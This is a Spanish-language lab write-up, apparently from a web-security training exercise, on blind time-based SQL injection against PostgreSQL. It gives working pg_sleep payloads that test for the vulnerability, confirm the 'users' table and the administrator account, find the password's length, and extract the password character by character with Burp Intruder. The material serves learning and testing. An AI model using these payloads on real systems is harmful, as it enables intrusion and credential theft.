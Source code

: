 # Blind SQL injection with time delays

Se puede inyectar codigo con delays de tiempo cambia mucho para cada base de datos

> Las técnicas para desencadenar un retraso de tiempo son muy específicas para el tipo de base de datos que se utiliza. En Microsoft SQL Server, una entrada como la siguiente se puede usar para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:


```
TrackingId=x'||pg_sleep(10)--

```
Esta es una consulta valida

 ```
 '||(select '') ||'
```

# Blind SQL injection with time delays and information retrieval 

# Checar si el vulnerable al Ataque Paso 1

Para probar si es vulnerable a este tipo de ataque se pueden utilizar los condicionales

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

# Orden de ejecucion en SQL Paso 2 ( para probar existencia de tablas)

> https://programacion.net/articulo/el_orden_de_ejecucion_de_las_queries_en_sql_1032

El orden en que se ejecuta una sentencia SQL nos puede ayudar a checar si existen usuarios y tablas. La siguiente tabla muentra como se va ejecutando una sentencia SQL la primera intruccion que se ejecuta es el from

## Logical Query Processing Phase

Cuando escribes una serie de comandos dentro de una query sql, estos comandos se dividen mediante una fase de procesamiento lógico. Cada fase genera una serie de tablas virtuales que alimentan a la siguiente fase. Por supuesto, dichas tablas virtuales no son visibles por los administradores. Las fases y su orden de ejecución son las siguiente

```
1. FROM
2. ON
3. OUTER
4. WHERE
5. GROUP BY
6. CUBE | ROLLUP
7. HAVING
8. SELECT
9. DISTINCT
10 ORDER BY
11. TOP
```


## Checar Tablas y Sacar informacion 

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Por el Orden de ejecucion

```

'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END from users where username='administrator'--;

```

# Extraer los datos Paso 3

Sabiendo que tienemos un password utilizamos el LENGTH() vas mandando al intruder esta peticion cuando la mandes en la pesataña de comumnas activa en donde dice
****Response recived*** para ver el tiempo que tardo en recibirse para ver donde cambia.

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Para confirmar nada mas 

 ```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;

```

Para sacar el password que mide 20  mover la posicion del substring moviendo hasta el 20 igual activa la opcion de recived para ver el tiempo en que se tardo y ademas activa que solo se genere una solicitud en burp en el ***Resource pool*** dentro de las opciones del intruder ( max 1 request)

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,20,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

```

